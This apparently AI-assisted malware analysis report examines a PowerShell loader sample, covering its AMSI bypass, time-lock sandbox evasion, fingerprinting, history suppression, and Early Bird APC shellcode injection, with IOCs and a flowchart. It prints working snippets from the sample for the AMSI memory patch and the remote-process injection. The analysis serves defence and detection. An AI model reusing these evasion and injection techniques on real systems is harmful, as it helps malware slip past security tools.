

# Source

* Malware Bazaar: https://bazaar.abuse.ch/sample/af2d83008fff89591cf33cdbadf50b3d9eaa68d3057eda9b4f04a771121d2abc/
* File type: Powershell
* Size: ~1 MB

# Analysis

The sample was unobfuscated and had an embedded payload.

## Functionality

### Prompt

Leverages [malware-analysis skill](https://github.com/gl0bal01/malware-analysis-claude-skills) for Sonnet 4.6.

```
/malware-analysis Analyze @af2d83008fff89591cf33cdbadf50b3d9eaa68d3057eda9b4f04a771121d2abc.ps1 Write report in markdown format into @report.md It should contain the below sections:

1. Executive summary
2. Details - avoid variable names granularity. retain behavioral specifics like created folder names, C2 contact, etc.
3. IOCs

Reference the source code when stating functionality. Like:
```<source_code>```
<functionality>

Note: File may contain very long lines.
```

### Flowchart Prompt

```
Based on @report.md, can a Mermaid flowchart be written into FLOW.mmd? Keep the flowchart in natural language. Avoid variable name granularity. You can retain created folder names and contacted C2
```

### Flowchart



### Report

#### Executive Summary

The sample is a sophisticated multi-stage PowerShell loader. Upon execution it immediately patches the Windows Antimalware Scan Interface (AMSI) in memory, enforces a short expiry window (~9 minutes) using server time fetched from legitimate CDN domains, and performs anti-analysis checks before injecting a 122,848-byte shellcode payload into a suspended Windows system process via the Early Bird APC injection technique.

The script is structured to look like legitimate licensing and telemetry code—section comments read "Unix Time Check," "Getting encoded license data," and "Reducing CPU Usage"—while the actual sections implement anti-detection, C2 beacon time-lock, environment fingerprinting, and shellcode injection. The embedded shellcode (~120 KB) begins with a CALL instruction pattern (`\xe8\xcf\xd4\x01\x00\x00`) consistent with a reflective DLL loader or post-exploitation framework stager (e.g., Cobalt Strike, Havoc C2).

#### Details

##### Encoding and Obfuscation

The script file is saved in UTF-16 LE encoding (BOM `FF FE`), expanding its on-disk size to ~1 MB while containing ~545 KB of actual script text. This encoding bypasses security tools that only inspect UTF-8 content. Internally the shellcode blob is stored as `\xNN` hex escape sequences within a PowerShell here-string, disguised with the comment "Getting encoded license data."

Sensitive string construction is split across concatenated variables to defeat static signature detection:

```powershell
$a = "Ams"
$b = "iSc"
$c = "anBuf"
$d = "fer"
$signature = [System.Text.Encoding]::UTF8.GetBytes($a + $b + $c + $d)
```
Assembles the string `AmsiScanBuffer` at runtime, preventing signature matches on the literal function name.

The list of CDN domains used for time verification is Base64-encoded:

```powershell
$encodedDomains = "Z29vZ2xlLG1pY3Jvc29mdCxhbWF6b24sYXBwbGUsZmFjZWJvb2ssbmV0ZmxpeCxhZG9iZSxvcmFjbGUsaWJtLGNpc2Nv"
$decodedString = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($encodedDomains))
```
Decoded value: `google,microsoft,amazon,apple,facebook,netflix,adobe,oracle,ibm,cisco`

##### AMSI Bypass (Memory Patching)

The script's first action is to disable AMSI by patching `AmsiScanBuffer` in memory. It uses reflection to define P/Invoke wrappers for `VirtualQuery`, `ReadProcessMemory`, `WriteProcessMemory`, and `VirtualProtect` from `kernel32.dll`, and `GetMappedFileName` from `psapi.dll`— all assembled at runtime via `System.Reflection.Emit` to avoid importing these APIs by name.

It then enumerates all committed, readable memory regions in the current process and filters for regions backed by `clr.dll`. Within those regions it scans for the byte pattern matching `AmsiScanBuffer` and overwrites each occurrence with a null-byte array of the same length:

```powershell
$replacement = New-Object byte[] $signature.Length   # all-zero byte array
[void][Win32.Kernel32]::WriteProcessMemory($hProcess, [IntPtr]::Add($region.BaseAddress, $k), $replacement, $replacement.Length, [ref]$bytesWritten)
```
Memory protection is temporarily raised to `PAGE_EXECUTE_READWRITE` (0x40) before the write and restored afterward, so the patch leaves no lasting protection anomaly.

##### Time-Lock / Execution-Speed Check

After the AMSI patch, the script establishes a 550-second (~9 minute) deadline from the moment of launch. The pseudocode below reconstructs the logic; in the actual script these assignments are split across obfuscated, concatenated variables that make it difficult to determine whether the base timestamp is computed dynamically at runtime or hardcoded at generation time:

```powershell
$unixNow = [DateTimeOffset]::UtcNow.ToUnixTimeSeconds()   # may be a hardcoded literal in the real sample
$expiryUnix = $unixNow + 550
```

It then fetches the current server time by sending an HTTP HEAD request to a randomly selected legitimate CDN domain and reading the HTTP `Date` response header:

```powershell
$nsDomain = Get-RandomDomain
$response = Invoke-WebRequest -Uri $nsDomain -TimeoutSec 10 -UseBasicParsing -Method Head
$dateString = $response.Headers.Date
```

This is retried up to three times across randomly chosen domains. Execution continues only if the fetched server time is earlier than the expiry; otherwise the script exits with code 1.

This technique serves as an evasionary measure:

**Execution-speed / sandbox detection:** The clock starts at launch. The 13.8 seconds of synthetic delays (see below) consume a portion of the 550-second budget. If a debugger, sandbox, or instrumentation layer slows execution enough that more than 550 seconds elapse before the time-check is reached, the real-world server time will exceed `$expiryUnix` and the script exits silently with no payload delivered—making the sandbox report look clean.

##### Environment Fingerprinting

**Installed Software Enumeration (PowerShell)**

A `Get-InstalledSoftware` function queries both `HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall` and `HKLM:\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Uninstall`. The result is used as a decoy "license check" searching for `*PowerShell*`:

```powershell
$isValid = Get-InstalledSoftware *PowerShell*
$result = if ($isValid) { "License OK" } else { "License Verified" }
```
The output message is benign-sounding regardless; the actual purpose is to fingerprint the environment under the cover of legitimate software enumeration.

**Intel Software Check (C#, inside injector class)**

Interleaved with the injection sequence, the `IntelSoft()` method scans the same registry uninstall paths for any entry whose `DisplayName` or `Publisher` contains the string `"Intel"`:

```csharp
if (displayName.IndexOf("Intel", StringComparison.OrdinalIgnoreCase) >= 0 ||
    publisher.IndexOf("Intel", StringComparison.OrdinalIgnoreCase) >= 0)
{
    IntelSoftware = true;
    break;
}
```
The result is silently discarded (the boolean is never returned or acted upon in the code path shown), suggesting the check is either a sandbox timing probe or a leftover framework stub. Its placement between `VirtualAllocEx` and `QueueUserAPC` introduces a registry enumeration delay that can defeat sandbox timing heuristics.

**Writable Location Discovery**

The script calls `SHGetKnownFolderPath` (via `shell32.dll`) for four known folder GUIDs—`LocalAppData`, `RoamingAppData`, `ProgramData`, and `LocalAppDataLow`—and appends `\Temp` to each. It also checks `$env:TEMP`, `$env:TMP`, `%USERPROFILE%\AppData\Local\Temp`, and `%WINDIR%\Temp`. Each candidate path is tested for write access by creating a temporary file. A random writable path is selected and stored as `$DllPath`, indicating an intent to write files to disk in a subsequent stage (not exercised by this script).

##### Anti-Analysis Delays

Before and during injection, the `CpuFunctionality` helper performs busy-wait loops that consume CPU cycles for a specified number of seconds:

```csharp
public static void CpuFunctionality(uint seconds)
{
    uint startTime = GetTickCount();
    uint targetDuration = seconds * 1000;
    while (GetTickCount() - startTime < targetDuration)
    {
        for (int i = 0; i < 100000; i++) { }
    }
}
```

The injection sequence includes:
- `Sleep(3800)` — 3.8-second API sleep before shellcode parsing
- `CpuFunctionality(2)` — 2-second CPU burn after Sleep
- `CpuFunctionality(2)` — 2-second CPU burn after process creation
- `Sleep(2000)` — 2-second API sleep after `QueueUserAPC`
- `CpuFunctionality(2)` — 2-second CPU burn before `ResumeThread`

Total synthetic delay: ~13.8 seconds of intentional stalls, saturating sandbox time budgets and triggering timeout exits before injection completes.

##### Early Bird APC Process Injection

The C# class `Datastream` (compiled and loaded at runtime via `Add-Type`) implements the "Early Bird" APC injection technique. The `RawData()` method accepts the hex-encoded shellcode string, decodes it to a byte array, and injects it.

**Target Process Selection**

Three Windows system executables are tried in order until one can be spawned:

```csharp
string[] possiblePaths = {
    @"C:\Windows\System32\SecurityHealthHost.exe",
    @"C:\Windows\System32\snmptrap.exe",
    @"C:\Windows\System32\SppExtComObj.Exe"
};
foreach (string path in possiblePaths) {
    if (CreateProcessA(path, null, IntPtr.Zero, IntPtr.Zero, false, CREATE_SUSPENDED, IntPtr.Zero, null, ref si, out pi)) {
        processCreated = true;
        break;
    }
}
```

The `CREATE_SUSPENDED` flag (0x4) creates the process with its main thread in a suspended state, before any code runs, making it an ideal injection target.

**Memory Allocation and Shellcode Write**

RWX memory is allocated in the remote process and the shellcode is written:

```csharp
IntPtr remoteMemory = VirtualAllocEx(pi.hProcess, IntPtr.Zero,
    (uint)ByteDataSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

WriteProcessMemory(pi.hProcess, remoteMemory, ByteData, (uint)ByteDataSize, out bytesWritten);
```

**APC Queue and Execution**

The shellcode entry point is queued as a kernel Asynchronous Procedure Call (APC) on the still-suspended main thread:

```csharp
QueueUserAPC(remoteMemory, pi.hThread, UIntPtr.Zero);
// ... delays ...
ResumeThread(pi.hThread);
```

When `ResumeThread` is called, the thread enters an alertable state and the APC fires before any original thread code executes — the defining characteristic of the Early Bird technique.

The injector waits up to 30 seconds for the target process to exit (`WaitForSingleObject(pi.hProcess, 30000)`).

##### History Suppression and Runspace Isolation

The payload execution is wrapped in a dedicated PowerShell runspace:

```powershell
$rs = [runspacefactory]::CreateRunspace()
$rs.ApartmentState = 'STA'
$rs.ThreadOptions  = 'ReuseThread'
$rs.Open()
$ps = [powershell]::Create()
$ps.Runspace = $rs
$null = $ps.AddScript({
    Set-PSReadLineOption -HistorySaveStyle SaveNothing
}).Invoke()
```

`Set-PSReadLineOption -HistorySaveStyle SaveNothing` disables PowerShell command history for the session, preventing the injected commands from appearing in `%APPDATA%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`.

The runspace isolation also limits the visibility of objects and script state in host-level logging.

##### Embedded Shellcode

The variable `$GelioSystem` contains 8,191 lines of `\xNN` hex-encoded bytes, totaling **122,848 bytes** (~120 KB) of shellcode. The variable name and surrounding comments ("Getting encoded license data") disguise the shellcode as license configuration data.

```powershell
$GelioSystem = @"
"\xe8\xcf\xd4\x01\x00\x00\x90\x03\x00\x46\xd4\x01\x00\xab\x33"
"\xd7\x1a\xd1\x29\x6c\xcd\x25\x6f\x1e\x61\x70\x28\xb6\x17\x5c"
...
"@
```

The first bytes (`e8 cf d4 01 00 00`) decode to a CALL instruction with a 0x0001D4CF relative offset, characteristic of a Position-Independent Code (PIC) reflective loader.

#### IOCs

* Network

The script sends HTTP HEAD requests to the following domains purely to read the `Date` response header for time-lock validation. **No C2 traffic to attacker-controlled infrastructure was identified at this stage**; C2 endpoints are expected to be embedded in the shellcode payload.

| Purpose | Domains (randomly selected at runtime) |
|---------|----------------------------------------|
| Server time lookup (HEAD request) | `hxxps://www[.]google[.]com` |
| | `hxxps://www[.]microsoft[.]com` |
| | `hxxps://www[.]amazon[.]com` |
| | `hxxps://www[.]apple[.]com` |
| | `hxxps://www[.]facebook[.]com` |
| | `hxxps://www[.]netflix[.]com` |
| | `hxxps://www[.]adobe[.]com` |
| | `hxxps://www[.]oracle[.]com` |
| | `hxxps://www[.]ibm[.]com` |
| | `hxxps://www[.]cisco[.]com` |

* Host Artifacts

| Type | Value |
|------|-------|
| Injection target 1 | `C:\Windows\System32\SecurityHealthHost.exe` |
| Injection target 2 | `C:\Windows\System32\snmptrap.exe` |
| Injection target 3 | `C:\Windows\System32\SppExtComObj.Exe` |
| Writable drop paths checked | `%LOCALAPPDATA%\Temp`, `%APPDATA%\Temp`, `%ProgramData%\Temp`, `%LOCALAPPDATA%Low\Temp`, `%TEMP%`, `%TMP%`, `%USERPROFILE%\AppData\Local\Temp`, `%WINDIR%\Temp` |
| Registry keys read | `HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall` |
| | `HKLM:\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Uninstall` |
| PowerShell history suppressed | `%APPDATA%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt` |

# Early Bird APC Injection

```mermaid
flowchart TD

    START(["Injector Process · Datastream C# class compiled via Add-Type\nShellcode decoded: 8,191 lines of \\xNN hex → 122,848-byte array"])

    START --> SPAWN

    subgraph SPAWN ["Phase 1 — Target Process Selection  ·  Sample-Specific"]
        SP1["CreateProcessA\nC:\Windows\System32\SecurityHealthHost.exe\ndwCreationFlags = CREATE_SUSPENDED 0x4\n→ pi.hProcess, pi.hThread"]
        SP1 --> SP1R{Created?}
        SP1R -- No --> SP2["CreateProcessA\nC:\Windows\System32\snmptrap.exe\ndwCreationFlags = CREATE_SUSPENDED 0x4\n→ pi.hProcess, pi.hThread"]
        SP2 --> SP2R{Created?}
        SP2R -- No --> SP3["CreateProcessA\nC:\Windows\System32\SppExtComObj.Exe\ndwCreationFlags = CREATE_SUSPENDED 0x4\n→ pi.hProcess, pi.hThread"]
        SP3 --> SP3R{Created?}
        SP3R -- No --> ABORT(["Injection aborted\nno suitable host process spawned"])
    end

    SP1R -- Yes --> MEM
    SP2R -- Yes --> MEM
    SP3R -- Yes --> MEM

    subgraph MEM ["Phase 2 — Remote Memory Allocation  ·  General Early Bird"]
        M1["VirtualAllocEx\nhProcess = pi.hProcess\ndwSize = 122,848 bytes\nflProtect = PAGE_EXECUTE_READWRITE 0x40\n→ pRemoteShellcode\nAnonymous RWX region with no file backing\n= primary forensic indicator · detected by Volatility malfind"]
        M1 --> M2["WriteProcessMemory\nhProcess = pi.hProcess\nlpBaseAddress = pRemoteShellcode · nSize = 122,848 bytes\nShellcode now present in target process VA space\nPrimary thread still suspended — no code has run yet"]
    end

    MEM --> ANTI1

    subgraph ANTI1 ["Phase 3 — Pre-Queue Anti-Analysis  ·  Sample-Specific"]
        AA1["Sleep 3,800 ms\nKernel sleep — sandbox may accelerate via sleep-patching"]
        AA1 --> AA2["CpuFunctionality 2 s\nGetTickCount busy-wait spin loop\nCannot be fast-forwarded by sandbox or emulator"]
        AA2 --> AA3["IntelSoft registry probe\nScan HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\nand HKLM:\SOFTWARE\WOW6432Node\...\Uninstall\nfor DisplayName or Publisher containing the string Intel\nPurpose: syscall-overhead timing delay + environment fingerprint\nInserted between WriteProcessMemory and QueueUserAPC"]
    end

    ANTI1 --> APCSUB

    subgraph APCSUB ["Phase 4 — APC Queuing  ·  General Early Bird"]
        AQ_NOTE["Classic APC injection: must hunt for a running thread already in alertable wait\ne.g. SleepEx bAlertable=TRUE or WaitForSingleObjectEx bAlertable=TRUE\nUnpredictable — target thread may never enter alertable state\n\nEarly Bird: creates a suspended thread and exploits NtTestAlert inside\nLdrInitializeThunk which is guaranteed to run at every thread startup\nResult: deterministic shellcode execution with no thread hunting needed"]
        AQ_NOTE --> AQ1["QueueUserAPC — kernel32.dll wraps NtQueueApcThread\npfnAPC = pRemoteShellcode  ← shellcode entry point as APC callback\nhThread = pi.hThread  ← suspended primary thread\ndwData = 0"]
        AQ1 --> AQ2["Windows Kernel — NtQueueApcThread syscall\nAllocate KAPC structure in non-paged pool\nSet KernelRoutine = ExFreePool\nSet NormalRoutine = pRemoteShellcode\nInsert KAPC into thread's user-mode APC list\nSet KTHREAD.UserApcPending = TRUE\nThread remains SUSPENDED — APC is queued but not yet dispatched"]
    end

    APCSUB --> ANTI2

    subgraph ANTI2 ["Phase 5 — Post-Queue Delays  ·  Sample-Specific"]
        PA1["CpuFunctionality 2 s — CPU busy-wait"]
        PA1 --> PA2["Sleep 2,000 ms — kernel sleep"]
        PA2 --> PA3["CpuFunctionality 2 s — CPU busy-wait\nTotal post-queue stall: ~6 seconds\nDual technique: Sleep can be accelerated by sandbox patching\nbut CPU busy-wait cannot — both must pass\nAlso ensures APC is fully committed in kernel before ResumeThread"]
    end

    ANTI2 --> RESUMESUB

    subgraph RESUMESUB ["Phase 6 — Thread Resume  ·  General Early Bird"]
        R1["ResumeThread — kernel32.dll wraps NtResumeThread\nhThread = pi.hThread\nDecrements KTHREAD.SuspendCount: 1 → 0\nThread becomes runnable — kernel will schedule it\nNo CreateRemoteThread call — Sysmon Event 8 does NOT fire\nAbsence of Event 8 is itself an evasion signal"]
    end

    RESUMESUB --> KERN

    subgraph KERN ["Phase 7 — Windows Kernel APC Dispatch Path  ·  Core Early Bird Mechanism"]
        K1["Kernel schedules thread for execution\nInitial RIP → ntdll!LdrInitializeThunk\nFirst user-mode instruction executed by every new thread"]
        K1 --> K2["LdrInitializeThunk\n  calls LdrpInitialize\n    calls _LdrpInitialize\n      calls NtTestAlert syscall\nNtTestAlert unconditionally flushes the thread's user-mode APC queue\nNo alertable wait is required — this call is guaranteed at thread init\nThis is the exploit point: Early Bird queued an APC while the thread was suspended"]
        K2 --> K3{"KTHREAD.UserApcPending\n== TRUE ?"}
        K3 -- Yes --> K4["KiDeliverApc — kernel mode\nDequeues KAPC structure from thread's user-mode APC list\nCalls KernelRoutine: ExFreePool frees the KAPC allocation\nRewrites the trap frame RIP → ntdll!KiUserApcDispatcher\nReturn to user mode now lands at KiUserApcDispatcher, not NtTestAlert caller"]
        K4 --> K5["ntdll!KiUserApcDispatcher\nReads APC function pointer NormalRoutine from stack frame\nCalls pRemoteShellcode — shellcode entry point"]
        K5 --> SHELL["SHELLCODE EXECUTES\n120 KB reflective loader · first bytes e8 cf d4 01 00 00 — CALL instruction PIC pattern\nConsistent with Cobalt Strike beacon or Havoc C2 stager\n\nRuns BEFORE LdrpInitializeProcess loads any DLLs\nRuns BEFORE EDR user-mode hooks are installed in this process\nRuns BEFORE TLS callbacks fire\nRuns BEFORE application WinMain or main is reached\n\nThis pre-initialization execution window is the defining characteristic\nof Early Bird — shellcode is the first user-mode code to run in the process"]
        SHELL --> K6["Shellcode completes\nNtContinue restores original thread context from saved trap frame\nExecution resumes in _LdrpInitialize after NtTestAlert return point"]
        K6 --> K7
        K3 -- No --> K7["LdrpInitializeProcess\nLoads DLLs · triggers DllMain callbacks\nEDR user-mode hooks are installed at this stage — after shellcode has already run"]
        K7 --> K8["BaseThreadInitThunk → application entry point\nShellcode has already executed\nProcess may be exiting or C2 beacon is already active"]
    end

    K8 --> WAIT

    subgraph WAIT ["Phase 8 — Completion Wait  ·  Sample-Specific"]
        W1["WaitForSingleObject\nhObject = pi.hProcess · dwMilliseconds = 30,000\nInjector blocks up to 30 seconds\nwaiting for shellcode to finish and injected process to exit"]
    end

    WAIT --> DONE(["C2 beacon active\nShellcode has established command-and-control\nStage-2 payload expected from C2 endpoints embedded in shellcode"])

    style SPAWN fill:#fff8e1,stroke:#f9a825,color:#333
    style MEM fill:#e3f2fd,stroke:#1565c0,color:#333
    style ANTI1 fill:#fff8e1,stroke:#f9a825,color:#333
    style APCSUB fill:#e3f2fd,stroke:#1565c0,color:#333
    style ANTI2 fill:#fff8e1,stroke:#f9a825,color:#333
    style RESUMESUB fill:#e3f2fd,stroke:#1565c0,color:#333
    style KERN fill:#e8f5e9,stroke:#2e7d32,color:#333
    style WAIT fill:#fff8e1,stroke:#f9a825,color:#333
    style SHELL fill:#ffebee,stroke:#c62828,color:#b71c1c
    style AQ_NOTE fill:#f3e5f5,stroke:#6a1b9a,color:#4a148c
```


